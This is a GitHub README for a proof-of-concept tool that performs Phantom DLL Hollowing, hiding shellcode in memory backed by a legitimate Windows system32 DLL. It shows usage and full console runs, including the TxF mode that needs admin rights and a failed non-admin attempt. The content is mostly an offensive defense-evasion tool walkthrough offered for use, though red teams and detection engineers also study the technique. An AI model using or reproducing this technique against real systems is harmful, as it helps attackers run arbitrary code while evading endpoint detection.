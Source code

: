 # Phantom DLL Hollowing

This PoC performs Phantom DLL Hollowing which reported by [@_forrestorr](https://twitter.com/_forrestorr).

```
C:\Tools>PhantomDllHollower.exe

PhantomDllHollower - Tool for testing Phantom DLL Hollowing.

Usage: PhantomDllHollower.exe [Options]

        -h, --help    : Displays this help message.
        -p, --payload : Specifies shellcode to execute.
        -t, --txf     : Flag to use TxF. This option requires administrative privilege.

[!] -p option is required.
```

To use this PoC, specifies shellcode file you want to execute as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>PhantomDllHollower.exe -p calc.bin

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
[+] Got target module path.
    [*] Target : C:\Windows\system32\aadauthhelper.dll
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x2CC
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF86D2C0000.
[>] Trying to write shellcode to payload section's entry point.
    [*] Entry Point @ 0x00007FF86D2C2900
[+] Shellcode is written successfully.
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30140      74824       0.34   7760   1 CalculatorApp



C:\Tools>
```

If you want to use TxF technique, set `-t` flag as well as shellcode file path.
This option requires administrative privilege:

```
C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[+] Got target module path.
    [*] Target : C:\Windows\system32\concrt140.dll
[>] Trying to generate payload data.
[+] Payload data is generated successfully.
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x318
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF863F80000.
    [*] Shellcode @ 0x00007FF863FAD030
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30136      55972       0.30   7504   1 CalculatorApp



C:\Tools>
```

If you set `-t` flag without administrative privilege, failed to search target DLL as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[-] Failed to find abusable module. You may not have sufficient privileges.


C:\Tools>powershell -c Get-Process calc*

C:\Tools>
```

## References

* [Masking Malicious Memory Artifacts – Part I: Phantom DLL Hollowing](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)

* [GitHub - forrest-orr/phantom-dll-hollower-poc](https://github.com/forrest-orr/phantom-dll-hollower-poc)
